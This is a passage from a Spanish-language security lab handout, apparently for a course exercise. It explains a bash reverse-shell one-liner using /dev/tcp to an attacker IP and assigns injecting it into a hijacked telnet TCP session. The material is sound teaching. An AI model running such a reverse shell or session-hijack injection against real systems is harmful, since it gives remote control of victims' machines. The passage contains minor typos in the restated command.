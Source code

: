 \begin{itemize}
\item \texttt{"/bin/bash -i"}: El parámetro \texttt{i} es quiere decir que la shell será una shell interactiva, esto significa que nos permitirá interactuar para enviar y recibir información usando la shell.

\item \texttt{"> /dev/tcp/10.9.0.1/9090"}: Esto hace que el (\texttt{stdout}) (standard output) de la shell sea redirigido hacia la conexión TCP establecida con la IP del atacante \texttt{10.9.0.1} en el puerto \texttt{stdout} es el  \texttt{9090}. En sistemas \unix, el número del descriptor de archivo (file descriptor) del \texttt{stdout} es el \texttt{1}

\item \texttt{"0<\&1"}: El descriptor de archivo (file descriptor) cuyo número es \texttt{0} representa el standard input (\texttt{stdin}). Esta opción le indica al sistema que use el standard output como standard input.
Dado que el \texttt{stdout} está siendo redirigido hacia una conexión TCP, esta opción le indica al programa shell que obtendrá su entrada usando la misma conexión.

\item \texttt{"2>\&1"}: El descriptor de archivo (file descriptor) cuyo número es cuyo número es \texttt{2} representa el standard error \texttt{stderr}.
Esto hace que cualquier error que pueda ocurrir sea redirigido al \texttt{stdout} que es la conexión TCP.
\end{itemize}


Para concluir, el comando  \texttt{"/bin/bash -i > /dev/tcp/10.9.0./9090 0<\&1 2>\&1"}  ejecuta una shell \texttt{bash} en la máquina del servidor cuyo input viene de una conexión TCP y su output sale por la misma conexión TCP.

En la demostración anterior cuando el comando \texttt{bash} es ejecutado en el servidor \texttt{10.9.0.5} este establecerá una conexión reversa hacia  \texttt{10.9.0.1} que tendrá corriendo un proceso \texttt{netcat}. Esto puede ser verificado por medio del mensaje \texttt{"Connection received on 10.9.0.5"} mostrado en \texttt{netcat}.

La descripción anterior muestra como se puede configurar una shell reversa si se tiene acceso a la máquina víctima, que en nuestro caso es el servidor \texttt{telnet}, pero en esta tarea ud. no cuenta con tal acceso. Su objetivo es lanzar un ataque de TCP session hijacking entre el usuario y el servidor \texttt{telnet} y inyectar su comando malicioso dentro de esta sesión, logrando así obtener una shell reversa en el servidor.





